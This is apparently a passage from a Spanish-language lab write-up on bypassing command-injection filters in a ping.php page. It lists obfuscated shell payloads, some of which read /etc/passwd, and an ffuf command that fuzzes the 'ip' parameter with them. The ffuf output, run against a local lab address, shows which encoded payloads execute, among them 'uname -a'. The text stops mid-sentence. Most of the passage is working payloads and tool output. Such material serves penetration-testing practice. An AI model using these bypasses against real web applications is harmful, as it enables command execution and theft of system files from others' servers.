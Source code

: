 ```
IFS=,;`cat<<<cat,/etc/passwd`
echo${IFS}test
X=$'cat\x20/etc/passwd'&&$X
p\
i\
n\
g
$u $u
uname!-1\-a
```

```shell
ffuf -u "http://<IP>/ping.php?ip=<IP_ATTACKER>;FUZZ" -w bypasses.txt --enc 'FUZZ:urlencode' -fs 21
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/ping.php?ip=192.168.1.146;FUZZ
 :: Wordlist         : FUZZ: /home/kali/Desktop/bypasses.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 21
________________________________________________

p%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 3ms]
n%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4ms]
X%3D%24%27cat%5Cx20%2Fetc%2Fpasswd%27%26%26%24X [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4ms]
i%5C                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4ms]
%5Cu%5Cn%5Ca%5Cm%5Ce+%5C-%5Ca [Status: 200, Size: 126, Words: 11, Lines: 2, Duration: 3251ms]
%2F%5Cb%5Ci%5Cn%2F%2F%2F%2F%2Fs%5Ch [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 4262ms]
:: Progress: [37/37] :: Job [1/1] :: 8 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Veremos que en esta linea de aqui:

```
%5Cu%5Cn%5Ca%5Cm%5Ce+%5C-%5Ca [Status: 200, Size: 126, Words: 11, Lines: 2, Duration: 3251ms]
```
